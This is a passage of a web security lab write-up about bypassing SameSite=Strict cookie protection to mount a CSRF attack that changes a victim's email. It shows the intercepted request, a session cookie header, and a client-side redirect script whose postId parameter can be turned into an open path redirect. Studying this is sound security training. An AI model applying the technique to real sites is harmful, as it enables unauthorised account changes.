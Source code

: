 But when click in "deliver exploit to victim" button doesn't work adn redirect to login page, why?

Let's go to intercept the requests with 'View exploit' button.

In the request of when we are sending the url we see that we are not sending the session cookie:

```
GET /my-account/change-email?email=test@test.com&submit=1 HTTP/2
Host: 0a7f006d046f159a80b703e500410045.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://exploit-0ab700e804c9157e806a022801ca0095.exploit-server.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Priority: u=0, i
Te: trailers
```

If we send to intruder and send in response we see
```
Set-Cookie: session=1EjKr1jA1SvaeDPrEC6Wy8y9Xe9ggO00; Secure; HttpOnly; 
```

This is a cookie security mechanism, called sameSite, exactly is using `samesite=Strict`. Samesite restritcs how cookies are sent in cross-site request, this prevent CSRF.

An example is with our exploit server, if we send the request from our malicious server the cookies doesn't interchange.

The idea is to redirect the user from the original page, we have to find a way to avoid  samesite.

If we to the login page and then go to home you find post, if you enter in a post and create a comment.

We don't see nothing innusual, only that redirect automatically to the post page. If we go to HTTP history in burpsuite we see the request via POST to /post/comment and a request to `/resources/js/commentConfirmationRedirect.js`:

```js
redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}
```

In this url `/post/comment/confirmation?postId=3` we can try to replace postId to another path:

```
/post/comment/confirmation?postId=test
```

This redirect to /post/test thanks to javascript code.
